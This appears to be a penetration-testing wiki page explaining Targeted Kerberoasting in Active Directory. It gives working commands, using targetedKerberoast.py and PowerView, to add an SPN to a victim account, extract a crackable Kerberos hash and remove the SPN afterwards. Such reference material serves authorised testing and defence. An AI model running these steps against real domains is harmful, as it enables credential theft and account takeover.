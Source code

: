 # Targeted Kerberoasting

This abuse can be carried out when controlling an object that has a `GenericAll`, `GenericWrite`, `WriteProperty` or `Validated-SPN` over the target. A member of the [Account Operator](../builtins/security-groups) group usually has those permissions.

The attacker can add an SPN (`ServicePrincipalName`) to that account. Once the account has an SPN, it becomes vulnerable to [Kerberoasting](../kerberos/kerberoast.md). This technique is called Targeted Kerberoasting. 

::: tabs

=== UNIX-like

From UNIX-like systems, this can be done with [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast) (Python)

```bash
targetedKerberoast.py -v -d "$DC_HOST" -u "$USER" -p "$PASSWORD"
```


=== Windows

From Windows machines, this can be achieved with [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) and [Get-DomainSPNTicket](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainSPNTicket/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
# Make sur that the target account has no SPN
Get-DomainUser 'victimuser' | Select serviceprincipalname

# Set the SPN
Set-DomainObject -Identity 'victimuser' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}

# Obtain a kerberoast hash
$User = Get-DomainUser 'victimuser'
$User | Get-DomainSPNTicket | fl

# Clear the SPNs of the target account
$User | Select serviceprincipalname
Set-DomainObject -Identity victimuser -Clear serviceprincipalname
```

:::


Once the Kerberoast hash is obtained, it can possibly be [cracked](../credentials/cracking.md) to recover the account's password if the password used is weak enough.
